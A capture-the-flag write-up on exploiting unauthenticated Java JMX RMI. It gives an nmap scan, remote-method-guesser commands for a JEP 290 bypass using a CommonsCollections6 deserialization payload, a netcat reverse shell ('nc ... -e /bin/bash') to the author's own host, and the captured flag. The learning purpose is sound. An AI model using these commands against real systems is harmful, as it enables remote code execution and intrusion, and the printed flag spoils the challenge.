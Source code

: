 ## Arkanoid [5 pts]

We're given a server to check for vulnerabilities. 

Nmap scan `nmap -sV -T4 -A arkanoid.cns-jv.tcc -p1-65535` shows 8000, 60001, 60002 ports open:
```
Nmap scan report for arkanoid.cns-jv.tcc (10.99.0.102)
Host is up (0.019s latency).
rDNS record for 10.99.0.102: localhost
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
8000/tcp  open  http       JBoss Enterprise Application Platform
|_http-title: Gamedev Canvas Workshop - lesson 10: finishing up
36809/tcp open  tcpwrapped
60001/tcp open  java-rmi   Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer, 
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @localhost:60002
|             extends
|_              java.rmi.server.RemoteObject
60002/tcp open  java-rmi   Java RMI

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.91 seconds
```

There's the game itself on port 8000 which isn't very interesting and unauthenticated JMX RMI on ports 60001 (registry) and 60002.

I tried several tools for scanning/attackng JMX RMI with the best results from https://github.com/qtc-de/remote-method-guesser which also conveniently comes with a Docker image (`docker pull ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0`).

So first I enumerated the 60001 registry endpoint with `docker run --rm -it ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 enum 10.99.0.102 60001` which showed a JEP290 bypass enumeration vulnerability.


![alt text](img/rmg_enum.png)

JEP 290 was a security fix for JVM which removed the possibility to directly attack RMI using a deserialization attack by adding filtering on incoming connections. But the fix could still be bypassed by creating an outbound channel from the vulnerable target which doesn't have the filtering and so can be attacked as usual.

So the set this up, I needed 3 components (10.99.0.28 is IP of my machine on the VPN):
- 1) reverse shell listener: `nc -vlp 7002`
- 2) local RMI listener: `docker run --rm -it -p 7001:7001 ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 listen 0.0.0.0 7001 CommonsCollections6 'nc 10.200.0.28 7002 -e /bin/bash'`
- 3) bypass: `docker run --rm -it ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 serial 10.99.0.102 60001 AnTrinh 10.200.0.28:7001 --component reg`

Now that the netcat captured shell, I spent some time looking around for the flag but in the end it was env var of the running process:
`env` -> `FLAG{sEYj-80fd-EtkR-0fHv}`

